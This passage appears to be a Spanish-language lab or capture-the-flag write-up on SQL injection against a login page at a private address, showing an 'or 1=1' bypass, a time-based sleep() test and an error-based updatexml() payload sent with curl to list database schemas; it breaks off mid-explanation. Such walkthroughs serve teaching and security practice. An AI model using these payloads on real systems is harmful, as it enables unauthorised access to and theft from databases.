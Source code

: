 vemos "Acceso concedido. Bienvenido, 'or 1=1-- -" luego funciona la inyección, más o menos intuimos que casi seguro que la consulta es algo así:
```
"SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
```
al realizar la consulta queda:
```
SELECT * FROM users WHERE username = '' OR 1=1 -- - AND password = 'da igual lo que pongas'
```
todo esto:
```
-- - AND password = 'da igual lo que pongas'
```
al ir detrás de "-- -" queda fuera de la consulta.

probamos una inyeccion basada en tiempo:
```
curl -X POST http://192.168.1.45/login.php \                                                                                                                                                                         
-d "user='or sleep(5)-- -" \
-d "pass=x"
```

y tarda 5 segundos en cargar..es inyectable a un time based, pero me la voy a jugar un un blind, ahí a lo loco, que no estaba para hacer scripts xD:

Vale, os voy a explicar un truquito:

updatexml() es una función de MySQL que se usa normalmente para modificar valores dentro de un documento XML.

Pero en las inyecciones SQL, se usa como truco para forzar un error que revele datos. 

Vamos a explicarlo

```
updatexml(xml_doc, xpath_expr, new_value)
```
esta función spera tres argumentos, Pero si le das algo que no sea un XML válido, MySQL lanza un error con el contenido que le pasaste

jeje ahí es dónde la liamos

```
SELECT updatexml(1, 'LLL', 1);
```
y esto lanza un error más o menos así:

```
XPATH syntax error: 'LLL'
```
Si en vez de LLL le metemos una consulta reflejará la consulta

Después de toda esta chaqueta:

```bash
curl -X POST http://192.168.1.45/login.php \                                                                                                                                                                          
  -d "user=' AND updatexml(1, concat(0x7e, (SELECT schema_name FROM information_schema.schemata LIMIT 0,1), 0x7e), 1) -- -" \
  -d "pass=x"
```
📖 ¿Qué hace?
updatexml(...): Lo expliqué...el tostón de antes
